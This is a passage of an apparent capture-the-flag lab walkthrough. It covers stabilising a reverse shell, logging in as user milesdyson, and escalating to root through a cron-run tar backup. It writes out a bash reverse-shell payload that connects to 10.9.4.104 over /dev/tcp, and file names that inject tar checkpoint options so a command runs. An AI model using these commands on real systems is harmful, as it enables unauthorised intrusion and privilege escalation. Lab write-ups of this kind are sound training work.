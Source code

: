 ![image](https://user-images.githubusercontent.com/67465230/186830019-eb1e93d0-758f-4977-87e3-c9af2f19bdf1.png)

we will notice that on terminal, we got the reverse shell.

Let's now get the stable shell using sequence of cool commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Now since, we have user milesdyson's password, so we can login into his account, 

```bash
su milesdyson
```

![image](https://user-images.githubusercontent.com/67465230/186830060-f2484ca6-b480-4898-862c-c4da71935ba3.png)

Now we can access the milesdyson user directory and files. Enumerating directory and there we got the user flag,

![image](https://user-images.githubusercontent.com/67465230/186830087-0762a35b-813a-4c44-9c19-51cde9509308.png)

Now, see what files are under crontab,

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/67465230/186830164-850c62f0-c1db-412b-bca5-6ff9d93320b2.png)

we can see that there's file way out of the box which runs periodically, **/home/milesdyson/backups/backup.sh**.

Navigating to backups directory and enumerating directory and there we got the backup.sh file,

![image](https://user-images.githubusercontent.com/67465230/186830227-2f1662f9-92d0-4f70-8f7e-5ad659ec48c6.png)

Reading the content of the backup.sh file, we can see that tar command is taking backups for everything and saving the output file as backup.tgz,

![image](https://user-images.githubusercontent.com/67465230/186830283-14d928f2-7845-4b9a-891d-9f9b1eb823b9.png)

We can find ways to elevate the privileges using [GTFOBins:tar](https://gtfobins.github.io/gtfobins/tar/). We can execute a privileged shell with `tar` executed by root as follows: 

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Let’s use it to create a privileged reverse shell. To add the 2 required options, we will create files as follows: 

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.9.4.104/5555 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```
